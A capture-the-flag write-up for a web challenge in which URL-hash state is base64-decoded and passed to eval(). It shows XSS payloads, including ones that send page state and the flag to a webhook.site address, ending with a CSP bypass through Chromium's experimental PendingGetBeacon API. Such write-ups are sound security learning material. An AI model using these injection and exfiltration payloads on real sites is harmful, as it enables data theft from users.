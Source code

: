There we have **state** is the JSON obj after base64 decoded `atob()`
 `window.location.hash.slice(1)` is taking the after "#" part of current URL.
  Example: http://example.com/#123abc if go on this func => 123abc

Then if statement check the ingredient element already founded => execute the `evaluate()` function and add result element to the founded map.

## Exploit

So, i have to take my time for playing this game till i got XSS (waste of time) to met the condition of evaluate() function.

Take first step with simple payload: `{"recipe":[["Exploit","Web Design"]],"xss":"alert('1')"}`
=> http://localhost:8080/#eyJyZWNpcGUiOltbIkV4cGxvaXQiLCJXZWIgRGVzaWduIl1dLCJ4c3MiOiJhbGVydCgnMScpIn0=

Its worked!

Chromium stored the attribute of **state** so i need to see content of state, this bring me to this payload:

    {"recipe":[["Exploit","Web Design"]],"xss":"let output='';for(const[key,value]of Object.entries(state)){output+=`${key}:${value}`;}alert(output);"}

Encode it and bring to the URL, also worked too! 
=> recipe:Exploit,Web Designxss:let output='';for(const[key,value]of Object.entries(state)){output+=`${key}:${value}`;}alert(output);

Its processing in Chromium, so i need something that return the flag to me. THAT WHY I USED WEBHOOK!

=> payload: ``` http://localhost:8080/remoteCraft?recipe={"recipe":[["Exploit", "Web Design"]],"xss":"let output='';for(const[key,value]of Object.entries(state)){output+=`${key}:${value}`;};window.location = 'https://webhook.site/09e19f10-a88e-405c-b6c1-4870e0c497d5/?e=' + output"}```

The Chromium processing, then 

    http://127.0.0.1:8080/#${Buffer.from(JSON.stringify(state)).toString('base64')}
accessed by browser =>  **evaluate()** executed => **eval()** execute => **XSS** !!!

Unfortunately, despite many tries, the webhook cant catch my request, then i realize that `"navigate-to 'none'"` in CSP  :(

After hours, i found that we can use `window.location.hash.slice(1)` again to get the flag, cause our location is indeed containing the flag. But we don't have anything to return it. 

So desperately, so i checked the solution..., then thing i missed is: `--enable-experimental-web-platform-features`. AISHHHH! im done, its so tricky, there are a API in testing Chrome Feature that is **PendingBeacon** class, which has PendingGetBeacon() API supports JavaScript. Normally the testing feature is not affected by the CSP.
 
 [Here is the document](https://chromium.googlesource.com/chromium/src/+/refs/tags/107.0.5304.8/docs/experiments/page-unload-beacon.md)

I have tried another API but its seem not work with this time.

=> payload:  ``` http://localhost:8080/remoteCraft?recipe={"recipe":[["Exploit", "Web Design"]],"xss":"new PendingGetBeacon('https://webhook.site/09e19f10-a88e-405c-b6c1-4870e0c497d5/?e=' + window.location.hash.slice(1), {timeout: 1000});"}```
